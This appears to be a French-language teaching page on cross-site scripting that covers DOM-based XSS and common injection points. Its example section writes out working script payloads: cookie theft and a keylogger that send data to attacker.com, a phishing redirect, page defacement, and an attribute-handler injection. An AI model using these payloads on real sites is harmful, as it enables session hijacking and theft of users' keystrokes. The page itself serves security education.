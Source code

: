 ### 3. XSS DOM-BASED
- Exploitation côté client uniquement
- Manipulation du DOM par JavaScript
- Le serveur n'est pas impliqué

---

## MOYENS D'INJECTION FRÉQUENTS

• Champs de formulaire (commentaires, profils, messageries, etc.)  
• Paramètres d'URL visibles  
• Téléversement de fichiers (SVG, HTML) contenant du JS  
• Widgets ou scripts tiers compromis (ex : Google Analytics)

Dans tous les cas, le navigateur exécutera le code dès qu'il le considère comme faisant partie 
du site légitime.

---

## EXEMPLES D'ATTAQUES

### 1. Vol de cookies de session :
```javascript
<script>
  fetch('https://attacker.com/steal?cookie=' + document.cookie);
</script>
```

### 2. Redirection malveillante :
```javascript
<script>window.location='https://phishing-site.com';</script>
```

### 3. Keylogger :
```javascript
<script>
  document.addEventListener('keypress', function(e) {
    fetch('https://attacker.com/log?key=' + e.key);
  });
</script>
```

### 4. Défacement de page :
```javascript
<script>document.body.innerHTML='Site Hacked!';</script>
```

### 5. Injection dans attribut :
```html
<input value="recherche" onmouseover="alert('XSS')">
```

---